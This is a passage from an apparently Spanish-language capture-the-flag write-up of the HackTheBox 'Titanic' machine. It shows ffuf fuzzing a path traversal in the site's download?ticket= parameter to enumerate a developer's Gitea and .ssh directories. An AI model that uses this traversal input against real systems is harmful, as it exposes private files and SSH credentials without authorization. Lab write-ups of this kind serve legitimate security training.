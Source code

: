 ```c
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Extensions       : .ini .txt .sql 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

git                     [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 121ms]
ssh                     [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 121ms]

```

Encontramos un directorio `git` en el cual iniciarnos a hacer fuerza bruta para seguir buscando directorios.

```c
❯ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u 'http://titanic.htb/download?ticket=/home/developer/gitea/data/git/FUZZ' -e .ini,.txt,.sql,.db

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://titanic.htb/download?ticket=/home/developer/gitea/data/git/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Extensions       : .ini .txt .sql .db 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.ssh                    [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 116ms]

```

Aquí encontramos otro directorio `.ssh` y también seguiremos enumerando los directorios, luego encontraremos un archivo llamado `evironment`.

![20250829223558.png](20250829223558.png)
